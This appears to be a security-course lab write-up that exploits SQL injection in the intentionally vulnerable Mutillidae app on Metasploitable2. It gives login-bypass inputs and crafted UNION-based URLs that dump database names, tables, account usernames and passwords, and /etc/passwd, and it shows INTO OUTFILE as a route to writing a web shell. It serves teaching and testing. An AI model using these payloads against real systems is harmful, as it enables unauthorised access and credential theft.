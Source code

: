 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database.


Identify IP address using ifconfig in Metasploitable2
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/6982d9a0-a781-44ce-af29-26dbde20403e)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/4259c9bf-1d8e-48ff-926f-88345c5e98f4)

Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/a62f6407-224d-493d-b981-a2d1dad7ed39)

Click on the menu Login/Register and register for an account
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/45352bbd-0c8b-4db1-a8dd-9f1f9f0de78c)

Click on the link “Please register here”
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/7cec22ca-e53d-4015-a42e-bafde0ff29e5)
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/d66e3680-6a0f-4aaf-8298-b985c59569d2)

Click on “Create Account” to display the following page:
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/f3909cec-9a6c-4732-94dc-c66af1c5f618)

The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;).
 For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
 ![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/0ea3e8ec-a3af-44ed-9537-dd0ad8496080)

 Click “Login”. The logged in page will show as below:
 ![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/78d31bae-9c50-4a56-8195-6a8ecbb2dbf0)

 ## Bypassing login field
 The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/97d81a87-365d-4077-ae83-27126a94c86a)

Click the login button and you will see it enter into the administrator page.
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/3db8dbd7-0611-4c1c-bc2c-7eeb7718494d)

## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. 
we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info” 

After logging out, Now choose the menu as shown below:
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/6e32d6f9-f39f-48a4-b44b-aecb2741ee22)
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/df11cb8c-d072-41ca-ae5f-425de8ed0b8e)
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/820bcce2-b310-47a4-bc43-79db8c31aa37)
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/3d0e3bd8-16ec-46a5-80ea-6a178925691d)
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/1d3ed2fe-e274-4336-9080-684d661e48d1)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/13193916-4e7b-401a-aa82-20c7464d84ec)

Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/83543d64-bdf9-4a98-b80a-62dc4719b3e7)

After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/2e3a70a0-7b2a-48c6-9514-e8012d0c12c6)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/36f930ad-1e06-4c2c-9f4e-194b3db334f4)

 As it is having 5 columns the query worked fine and it provides the correct result
 ![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/e4ebaec7-82a3-45b5-9b92-3aac3115c331)

 Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5).
 ![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/276ea21e-2539-4de7-b202-f50fa9c73042)

 As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
 ![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/ed5878ba-96ab-4ab1-91ce-38ba8f1a2043)

 Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/0eb145ed-0a75-4d46-8c51-48d5708191e1)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/46bd8952-514e-4db6-99b3-44b60d69495a)

The url once executed will  retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords
When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/0f3a4e2f-8b06-42e5-a79d-6fca1f627112)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/43499f8b-61e3-429e-aec0-fbac321da4d6)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/41ba5431-966f-497c-8e67-581fa02c4b5b)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/6c3766e9-9dce-47b5-8063-d521c584bd95)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
